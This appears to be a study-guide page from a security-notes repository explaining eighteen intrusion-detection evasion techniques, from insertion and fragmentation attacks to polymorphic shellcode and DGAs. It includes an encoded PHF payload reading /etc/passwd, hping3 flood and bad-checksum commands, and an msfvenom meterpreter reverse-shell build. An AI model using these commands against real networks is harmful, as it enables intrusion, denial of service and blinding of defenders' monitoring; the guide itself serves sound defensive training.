






# 06b — IDS Evasion Techniques

[⬅ Back to evasion index](../README.md) · [Back to main index](../../README.md)

## Table of Contents
- [Overview](#overview)
- [1. Insertion Attack](#1-insertion-attack)
- [2. Evasion Attack](#2-evasion-attack)
- [3. Denial-of-Service Attack Against the IDS](#3-denial-of-service-attack-against-the-ids)
- [4. Obfuscating](#4-obfuscating)
- [5. False Positive Generation](#5-false-positive-generation)
- [6. Session Splicing](#6-session-splicing)
- [7. Unicode Evasion](#7-unicode-evasion)
- [8. Fragmentation Attack](#8-fragmentation-attack)
- [9. Time-To-Live (TTL) Attack](#9-time-to-live-ttl-attack)
- [10. Urgency Flag](#10-urgency-flag)
- [11. Invalid RST Packets](#11-invalid-rst-packets)
- [12. Polymorphic Shellcode](#12-polymorphic-shellcode)
- [13. ASCII Shellcode](#13-ascii-shellcode)
- [14. Application-Layer Attacks](#14-application-layer-attacks)
- [15. Desynchronization](#15-desynchronization)
- [16. Domain Generation Algorithms (DGA)](#16-domain-generation-algorithms-dga)
- [17. Encryption](#17-encryption)
- [18. Flooding](#18-flooding)

---

## Overview

IDS evasion is the process of modifying attacks so the IDS interprets the traffic as legitimate — preventing it from triggering an alert. All of these techniques exploit the fundamental gap between what the IDS *sees* and what the target host *actually processes*.



---

## 1. Insertion Attack

**Concept:** The attacker forces the IDS to read invalid packets that the target host *rejects* — inserting extra data into the IDS's view of the stream that the host never sees.



**How it works:**
- The attacker sends packets with intentionally **corrupted checksums** — the IDS (less strict) accepts them and uses them to build its view of the stream, but the target host rejects them.
- The attacker can also send packets with TTL values set low enough to reach the IDS but expire before reaching the target — the IDS sees these packets; the host never receives them.
- The IDS ends up with *more* data than the host, causing a mismatch. The attacker exploits this mismatch to insert junk characters that break signature pattern-matching.

**Classic example (PHF CGI attack):**
```
Attacker wants to send:    "phf"  (matches IDS signature for PHF attack)
Attacker actually sends:   "pXhXoXnXeXyXf" with X packets having bad checksums

IDS reads:     "phoneyf"  — no signature match → no alert
Host receives: "phf"      — malicious string reaches the web server
```

---

## 2. Evasion Attack

**Concept:** The opposite of insertion — the attacker sends packets that the host *accepts* but that the IDS *discards*, giving the IDS fewer packets than the host.



**Example — TCP handshake data evasion:**
- An IDS that does not accept data carried inside TCP SYN/SYN-ACK handshake packets is vulnerable.
- The attacker sends the first portion of the attack *inside a SYN packet payload*.
- The IDS ignores handshake-packet payloads → the data is "invisible" to the IDS, but the target host processes it normally.

---

## 3. Denial-of-Service Attack Against the IDS

Instead of evading the IDS's detection logic, this technique simply overwhelms the IDS itself so it can no longer function properly.

**Target resources:**

| Resource | Attack method | Effect |
|---|---|---|
| **CPU** | Send traffic that requires the most computationally expensive IDS operations (e.g., complex regex matching) at high rate | IDS spends all CPU on useless work, drops packets |
| **Memory** | Force IDS to allocate memory for many TCP connections, reassembly queues, fragment buffers | IDS runs out of memory, stops processing |
| **Disk** | Generate a massive number of false positive events, filling up the IDS log disk | IDS cannot log real events |
| **Network bandwidth** | Flood the network segment with meaningless traffic | IDS cannot keep up with the volume |
| **Central log server** | DoS the central syslog/SIEM server that aggregates IDS alerts | Alerts are no longer recorded → real attacks go unnoticed |

**Consequences:**
- IDS locks up or crashes
- Personnel cannot investigate all alarms
- Alert management databases fill up
- Disk space exhausted — attacks go unlogged
- Attackers slip actual attack traffic through while the IDS is overwhelmed

---

## 4. Obfuscating

Obfuscating encodes or transforms the attack payload so the IDS cannot recognize it, while the target host still decodes it correctly.

**Techniques:**
- **Unicode encoding:** converting attack strings like `/cgi-bin/phf` into Unicode equivalents (`/%63%67%69%2D%62%69%6E/%70%68%66`) that the IDS misses but IIS/Apache decodes
- **Polymorphic code:** rewriting the shellcode itself each time it is sent — no two instances share the same byte pattern
- **Digital steganography:** hiding malicious payloads inside image, audio, or document files
- **Encrypted protocols:** using HTTPS so the payload is encrypted at the firewall/IDS (see [Section 17](#17-encryption))
- **Base64/hex encoding of commands:** as used in [AMSI bypass](../06c-nac-and-endpoint-evasion/README.md#windows-amsi-bypass)

```bash
# Example: URL-encoding an attack string to bypass IDS string matching
# Original: /cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd
# Obfuscated with Unicode encoding:
# /%63%67%69%2D%62%69%6E/%70%68%66?Qalias=x%0a%2F%62%69%6E%2F%63%61%74%20%2F%65%74%63%2F%70%61%73%73%77%64
```

---

## 5. False Positive Generation

Instead of hiding from the IDS, the attacker floods it with *fake* alerts — crafting packets known to trigger IDS signatures — so the real attack is buried in alert noise.

**Goal:** exploit alert fatigue. When analysts see thousands of alerts per hour, they become desensitized and begin ignoring or auto-dismissing them — which is exactly when the real attack lands.

```bash
# hping3 — generate a flood of SYN packets to trigger port-scan alerts
sudo hping3 -S --flood -p ++1 <target_ip>

# nmap — run many different scan types to generate diverse alert types
nmap -sS -sU -sF -sX -sN -p 1-1000 <target_ip>
# Each scan type triggers different IDS rules

# Metasploit — use auxiliary/scanner modules to generate high-volume scanning noise
use auxiliary/scanner/portscan/syn
set RHOSTS <target_range>
set THREADS 50
run
```

---

## 6. Session Splicing

Session splicing splits the attack payload across an excessive number of packets — each fragment individually is too small to match any IDS signature.



**Additional trick — adding delays between packets:**
- Many IDS stop reassembling a session if the next packet doesn't arrive within a timeout.
- If the attacker knows this timeout, they insert delays between fragments that are *longer* than the IDS reassembly timeout but *shorter* than the application-level session timeout on the target.
- The IDS drops the session → stops watching it. The target still reassembles the complete stream.

**Tool:** Nessus includes session-splicing capability in some of its audit checks.

---

## 7. Unicode Evasion

Unicode is a character encoding system that supports multiple representations of the same character. IDS signature engines typically match against a specific byte pattern — but Unicode allows many different byte sequences to represent the same logical character.

**Examples:**
```
Character "/"  can be represented as:
  Standard:   0x2F
  UTF-16:     %u2215
  UTF-8:      %c0%af  (overlong encoding — technically invalid but historically accepted by some servers)

Character "e"  can be represented as:
  Standard:   0x65
  UTF-16:     %u00e9
```

**Attack scenario:**
```
IDS signature: matches the byte sequence "/cgi-bin/"
Attacker sends: "/%63gi-bin/" or "/%c0%afcgi-bin/" or "/cgi%2dbin/"

IDS: no match (signatures are byte-specific)
Web server: decodes Unicode and processes "/cgi-bin/" normally
```

**Why it's hard to fix:** The Unicode code space allows multiple representations of single characters, making it near-impossible to write IDS signatures that cover every possible encoding.

---

## 8. Fragmentation Attack

IP packets exceeding the MTU are split into fragments — each fragment carries only a portion of the original packet. The fragments are reassembled at the destination. IDS systems must also reassemble fragments to inspect payloads — but if the IDS and the host have *different fragment reassembly timeouts*, the attacker can exploit the gap.

### Scenario 1 — IDS timeout SHORTER than victim's

```
IDS fragment reassembly timeout:    10 seconds
Victim reassembly timeout:          20 seconds

Attacker sends Fragment 1, then waits 15 seconds, then sends Fragment 2.

IDS:    Fragment 1 arrives. Waits 10s. No Fragment 2 → drops Fragment 1. Stream cleared.
Victim: Fragment 1 arrives. Waits 20s. Fragment 2 arrives at 15s → reassembles. Attack succeeds.
IDS never sees the complete stream → no alert.
```

### Scenario 2 — IDS timeout LONGER than victim's

```
IDS timeout: 60s   |   Victim timeout: 30s

Attacker sends Frag2' and Frag4' (FALSE payloads with bad checksums).
→ Both IDS and victim receive these.
Victim: waits 30s for Frag1/Frag3 → timeout → drops all fragments (silently, no ICMP).
Attacker then sends Frag1 and Frag3 with REAL payloads.
Victim: reassembles Frag1+Frag3 only (legitimate payload — no issue yet).
IDS: now has Frag1+Frag2'+Frag3+Frag4' → attempts TCP reassembly → bad checksum on 2'/4' → drops stream as invalid.
Attacker sends Frag2 and Frag4 again with VALID payloads.
IDS: only has Frag2+Frag4 (the earlier full reassembly cleared the rest) → insufficient for pattern match.
Victim: now has Frag1+Frag2+Frag3+Frag4 → reassembles complete attack stream → attack succeeds.
```

```bash
# Generate fragmented packets with nmap
sudo nmap -f -sS -p 80 <target_ip>     # 8-byte fragments
sudo nmap --mtu 16 -sS -p 80 <target_ip>  # custom MTU

# hping3 fragmented packets
sudo hping3 -S -p 80 --frag -d 8 <target_ip>
```

---

## 9. Time-To-Live (TTL) Attack

Each IP packet has a TTL field that counts down by 1 at every router hop. When TTL hits 0, the router discards the packet and sends an ICMP "Time Exceeded" message to the sender.

**TTL attack concept:** The attacker sends "decoy" fragments with a TTL just high enough to reach the IDS but low enough to expire *before* reaching the victim.



**Result:**
- IDS assembles: Frag1 + Frag2'(false) + Frag3 → computes checksum on false payload → drops stream as invalid
- Victim receives: Frag1 + Frag3 only → waits for Frag2
- Attacker sends real Frag2 → victim reassembles Frag1+Frag2+Frag3 = real attack payload
- IDS has already discarded the stream → no alert

**Requirement:** the attacker must know the network topology (how many hops between attacker, IDS, and victim). Tools like `traceroute` provide this:
```bash
traceroute <target_ip>         # Linux
tracert <target_ip>            # Windows
```

---

## 10. Urgency Flag

TCP has an URG (urgent) flag and an Urgent Pointer field. When URG is set, the receiving TCP stack is supposed to skip directly to the "urgent data" offset pointed to by the pointer, ignoring everything before it.

**Evasion:**
- Some IDS do **not** honor the urgency flag — they process the *entire* packet payload.
- The target host **does** honor it — it skips to the urgent data and ignores the garbage before it.
- The attacker places garbage data *before* the urgent pointer — the IDS reads the garbage as part of the stream, breaking signature matching. The host ignores the garbage and processes only the actual attack payload.

```
Attacker sends a TCP segment with:
  URG flag set, Urgent Pointer = 6
  Payload: "JUNK_Xattack_string"
          positions: 0123456...

Host processes:  "attack_string"  (starts at offset 6 as directed by URG pointer)
IDS processes:   "JUNK_Xattack_string"  (ignores URG, reads all)
                 → IDS signature for "attack_string" buried in "JUNK_X..." → no match
```

---

## 11. Invalid RST Packets

TCP uses RST packets to abruptly terminate a connection. Some IDS, upon seeing an RST, stop tracking/reassembling that session — assuming the connection ended.

**Evasion:**
- Attacker sends an RST packet with an **intentionally wrong checksum**.
- IDS sees the RST → assumes the connection closed → stops monitoring it.
- Target host: receives the RST → verifies the checksum → detects it's invalid → **discards it** → connection continues.
- Attacker continues sending attack traffic on what the IDS now believes is a dead connection.

```bash
# hping3 — send RST with corrupted checksum (bad-checksum flag)
sudo hping3 -R --badcksum -p 80 <target_ip>
```

---

## 12. Polymorphic Shellcode

Signature-based IDS identify shellcode by matching known byte patterns (e.g., the byte sequence for a common `/bin/sh` shellcode). Polymorphic shellcode defeats this by **re-encoding itself each time** — no two copies share the same byte signature.

**How it works:**
1. The attacker starts with a working shellcode (e.g., a reverse TCP shell).
2. An **encoder** (e.g., Metasploit's `shikata_ga_nai`) encrypts/encodes the shellcode with a randomly generated key.
3. A small **decoder stub** is prepended to the payload — its job is to decrypt the real shellcode at runtime.
4. The payload delivered is: `[decoder stub][encrypted shellcode]`
5. IDS sees: encrypted garbage + a generic decoder stub → no pattern match → no alert.
6. On the target: the decoder stub runs, decrypts the shellcode, and executes it.

```bash
# Metasploit msfvenom — generate polymorphic shellcode with encoder
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.1.100 LPORT=4444 \
  -e x86/shikata_ga_nai \    # encoder — re-randomizes each time
  -i 5 \                     # encode 5 times (more iterations = more obfuscation)
  -f exe > payload.exe

# Each execution of the above command produces a different binary
# with a different byte signature — breaks static AV/IDS signatures
```

---

## 13. ASCII Shellcode

ASCII shellcode contains *only printable ASCII characters* — no binary or non-printable bytes. This evades:
- IDS signatures that look for non-printable byte sequences (typical of shellcode)
- Input filters that strip or reject non-ASCII characters (e.g., web form inputs)

**Limitation:** Not every CPU instruction converts cleanly into ASCII character codes — ASCII shellcode uses combinations of instructions (XOR, SUB, etc.) that *do* produce ASCII-range output, making it more complex but fully functional.

**Example structure (conceptual):**
```c
char shellcode[] =
    "LLLLYhbOpLX5bOpLHSSPPWQPPaPWSUTBRDJfh5tDS"
    "RajYXODka0TkafhN9fYf1Lkb0TkdjfY0Lkf0Tkgfh"
    /* ... all printable ASCII ... */
    ;
// When executed, this runs /bin/sh
```

---

## 14. Application-Layer Attacks

Media files (images, video, audio) are often compressed before transmission. IDS engines typically cannot inspect the contents of compressed data — they only see the compressed binary blob.

**Attack:** embed malicious code (e.g., an integer overflow exploit) *inside* compressed media data. The IDS cannot decompress and inspect the content in real time → no signature match. The target application decompresses the file and processes the exploit.

**Examples:**
- A malformed JPEG image that exploits a buffer overflow in an image-viewing library
- A crafted MP4 video that triggers a heap overflow in a media player
- A ZIP file containing a path traversal payload

Because the attack takes many different forms (different integer values for an integer overflow, different compression parameters), writing signatures is extremely difficult.

---

## 15. Desynchronization

Desynchronization attacks exploit the IDS's sequence number tracking, causing it to lose sync with the actual TCP stream.

### Pre-Connection SYN

```
1. Attacker sends a SYN packet with an INVALID TCP checksum and a bogus sequence number.
2. IDS (if it doesn't verify checksums): accepts this SYN, sets up a connection-tracking entry
   with the bogus sequence number as the "expected" sequence.
3. Real connection is established with a DIFFERENT sequence number.
4. IDS is now tracking the wrong sequence number → it misses the real traffic.
5. Attack traffic flows through, aligned with the real sequence numbers → host processes it,
   IDS cannot correlate it to the tracked session → no alert.
```

### Post-Connection SYN

```
1. Real connection is established normally (IDS tracking correctly).
2. Attacker sends a post-connection SYN packet mid-session with different sequence numbers
   but otherwise valid-looking criteria.
3. Some IDS re-synchronize their sequence tracking to the new SYN's sequence number.
4. Target host IGNORES this mid-session SYN (RFC compliant — it references an already-open connection).
5. IDS is now expecting a different sequence number than the host → IDS blind to subsequent traffic.
6. Attacker sends RST with the new (wrong) sequence number → IDS closes its tracking entry.
7. Attacker continues communicating with the host on the real sequence numbers → IDS sees nothing.
```

---

## 16. Domain Generation Algorithms (DGA)

DGA malware dynamically generates large numbers of new domain names using an algorithm (often seeded with the date or other shared data). Only a few of these domains are actually registered by the attacker as C2 servers — but the malware tries them all until it finds one that resolves.



**Why it evades detection:**
- Traditional blacklists block *specific* IP addresses and domain names — DGA malware uses hundreds of new, unregistered domains daily.
- The generated domain names look like random garbage (`isdfcbdjdnfuylt.ru`) or legitimate-looking words (`applebanana.com`) depending on the DGA type.
- Even if defenders block one domain, the malware simply moves to the next one in the algorithm's sequence.

**Types of DGA:**

| Type | How domains are generated | Example |
|---|---|---|
| **Character-based** | Random letters/numbers from a seed | `abscde8.com`, `xy12734.net` |
| **PRNG-based** | Pseudo-random sequence using date+time as seed | `hbeajidfg.com` |
| **Dictionary-based** | Combines real dictionary words randomly | `applebanana.com`, `orangekiwi.net` |
| **High-collision** | Mimics popular TLDs (.com, .org) — likely already registered | `test.com`, `demo.org` |

**Detection approaches:** machine learning models trained on domain name entropy, n-gram analysis, and NXDomain ratio monitoring (DGA malware generates *many* NXDomain responses as it cycles through unregistered names).

---

## 17. Encryption

Network-based IDS analyze plaintext traffic. The moment communication is encrypted (SSH, SSL/TLS, VPN), the IDS cannot inspect the payload.

**Attacker strategy:**
1. Establish an encrypted session with the target (SSH tunnel, HTTPS, VPN).
2. Send all attack traffic through that encrypted channel.
3. IDS sees: encrypted data from an established session → no payload inspection → no alert.

**Why this is a fundamental limitation:** IDS cannot decrypt traffic without the session keys. Only solutions like **SSL inspection / TLS interception** (which act as a MITM between client and server, re-encrypting with their own certificate) can inspect encrypted traffic — and these have significant privacy, performance, and certificate-trust implications.

---

## 18. Flooding

IDS have finite processing capacity. If the network is flooded with noise/fake traffic, the IDS may:
- Drop packets under load without inspecting them
- Fall behind processing the queue
- Exhaust memory/CPU

**Attacker workflow:**
1. Flood the network with high-volume meaningless traffic (random packets, UDP floods, etc.)
2. While the IDS is busy processing/dropping noise, send the actual attack traffic
3. The attack slips through during the IDS's resource exhaustion window

```bash
# hping3 UDP flood (generates raw traffic volume)
sudo hping3 --udp -p 80 --flood <target_ip>

# iperf3 — generate high-volume legitimate-looking TCP traffic (bandwidth test tool)
iperf3 -c <target_ip> -b 1G -t 60   # 1Gbps for 60 seconds
```

---

[⬅ Back to evasion index](../README.md) · [Back to main index](../../README.md) · [➡ 06c: NAC and Endpoint Evasion](../06c-nac-and-endpoint-evasion/README.md)
